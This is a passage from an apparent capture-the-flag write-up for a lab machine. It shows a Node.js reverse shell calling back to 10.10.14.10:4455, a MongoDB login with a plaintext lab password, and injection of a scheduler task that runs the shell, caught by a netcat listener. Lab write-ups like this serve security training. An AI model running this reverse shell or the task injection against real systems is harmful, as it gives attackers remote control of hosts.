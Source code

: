 <p>});
<br><font color="53E100">mark@node</font>:<font color="RoyalBlue">/var/scheduler</font>$</p>

</div>
</font>


<br>Now we have to create a new cmd.js file inside /tmp folder and put nodejs reverse shell inside it and we have to edit the task and edit the path to our new file
<br>[*Node.js reverse shell*](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ nano cmd.js
<br>Unable to create directory /home/mark/.nano: Permission denied
<br>It is required for saving/loading search history or cursor positions.</p>

<p>Press Enter to continue</p>

<p><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ cat cmd.js 
<br>(function(){
<br>&nbsp;&nbsp;&nbsp;&nbsp;var net = require("net"),
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cp = require("child_process"),
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sh = cp.spawn("/bin/sh", []);
<br>&nbsp;&nbsp;&nbsp;&nbsp;var client = new net.Socket();
<br>&nbsp;&nbsp;&nbsp;&nbsp;client.connect(4455, "10.10.14.10", function(){
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;client.pipe(sh.stdin);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sh.stdout.pipe(client);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sh.stderr.pipe(client);
<br>&nbsp;&nbsp;&nbsp;&nbsp;});
<br>&nbsp;&nbsp;&nbsp;&nbsp;return /a/; // Prevents the Node.js application form crashing
<br>})();
<br><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ chmod +x cmd.js 
<br><font color="53E100">mark@nod</font>e:<font color="RoyalBlue">/tmp</font>$ mongo
<br>MongoDB shell version: 3.2.16
<br>connecting to: test
<br>> var mydb = connect('mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler')
<br>connecting to: mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler
<br>> mydb.tasks.insert({cmd: "/usr/bin/node /tmp/cmd.js"})
<br>WriteResult({ "nInserted" : 1 })
<br>> </p>

</div>
</font>

<br>make sure to set up the listener before you run the command in mongo.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/node</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.58] 47440
<br>/bin/bash -i
<br>bash: cannot set terminal process group (1225): Inappropriate ioctl for device
<br>bash: no job control in this shell
<br>To run a command as administrator (user "root"), use "sudo <command>".
<br>See "man sudo_root" for details.</p>
